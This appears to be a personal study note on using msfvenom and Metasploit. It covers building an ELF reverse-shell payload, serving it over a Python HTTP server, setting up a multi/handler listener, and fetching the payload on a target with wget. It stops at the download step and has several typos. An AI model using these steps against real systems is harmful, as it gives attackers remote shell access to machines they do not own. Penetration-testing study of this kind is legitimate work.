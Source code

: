 ```yaml
---
title: Example use of MSFVENOM
updated: 2023-03-21T12:51:36.0000000+04:00
created: 2023-03-21T12:51:09.0000000+04:00
---
```


PM

**<u>\# EXAMPLE SCENARIO</u>**

1.  Creating an ELF Payload:

![image1](image1-17.png)

1.  Starting the Python HTTP_Server to host the PAYLOAD

![image2](image2-10.png)

- Go to the directory, where the payload is located and start the server there with the command:
- python -m http.server

1.  Start the msfconsole (Metasploit) Listener, so you can capture the exploit

Do this by using the following command:

- User exploit/multi/handler
- Show options
- Set LHOSTS (This will the the same that you set for the MSFVENOM Payload)
- Set LPORT (This will be the same that you set for the MSFVENOM paylaod)

![image3](image3-4.png)

![image4](image4-3.png)

1.  Download the Exploit on the target machine.

- This is basically the file that you have hosted using the python -m http.server command
- This file is now available for download on the internet as its hosted on the python server
- To download this file you will use the following command:

| Command | Wget <http://127.0.0.1:8000/rev_shell.elf> |
|---------|--------------------------------------------|
